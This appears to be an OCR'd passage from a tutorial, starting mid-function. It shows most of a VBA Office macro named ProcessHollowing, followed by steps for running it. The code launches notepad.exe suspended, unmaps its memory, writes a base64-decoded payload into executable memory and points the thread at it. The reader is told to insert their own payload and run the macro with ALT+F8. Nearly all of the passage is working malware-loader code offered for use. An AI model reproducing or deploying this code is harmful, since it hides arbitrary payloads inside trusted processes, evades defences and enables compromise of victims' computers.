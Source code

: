 ```
    ' Create a suspended process (e.g., notepad.exe)
    If CreateProcess(vbNullString, "C:\Windows\System32\notepad.exe", 0, 0, 0, CREATE_SUSPENDED, 0, vbNullString, VarPtr(si), VarPtr(pi)) = 0 Then
        MsgBox "Failed to create process"
        Exit Sub
    End If
    
    ' Unmap the memory of the target process
    NtUnmapViewOfSection pi.hProcess, 0
    
    ' Allocate memory within the target process for the payload
    Dim baseAddress As LongPtr
    baseAddress = VirtualAllocEx(pi.hProcess, 0, UBound(payloadBytes) + 1, MEM_COMMIT Or MEM_RESERVE, PAGE_EXECUTE_READWRITE)
    
    ' Write the payload into the allocated memory space
    Dim bytesWritten As Long
    WriteProcessMemory pi.hProcess, baseAddress, VarPtr(payloadBytes(0)), UBound(payloadBytes) + 1, bytesWritten
    
    ' Update the context of the target process to point to the payload's entry point
    Dim context As CONTEXT
    context.ContextFlags = CONTEXT_CONTROL
    GetThreadContext pi.hThread, context
    context.Rip = baseAddress
    SetThreadContext pi.hThread, context
    
    ' Resume the target process
    ResumeThread pi.hThread
    
    ' Close handles
    CloseHandle pi.hProcess
    CloseHandle pi.hThread
End Sub

Function Base64Decode(base64String As String) As Byte()
    Dim xml As Object
    Set xml = CreateObject("MSXML2.DOMDocument.3.0")
    Dim node As Object
    Set node = xml.createElement("b64")
    node.DataType = "bin.base64"
    node.Text = base64String
    Base64Decode = node.nodeTypedValue
End Function
```

Replace "BASE64_ENCODED_PAYLOAD_HERE" with your base64-encoded payload.

#### Step 3: Execute the Macro
Run the VBA macro from within the Office document by pressing `ALT+F8`, selecting `ProcessHollowing`, and clicking `Run`.
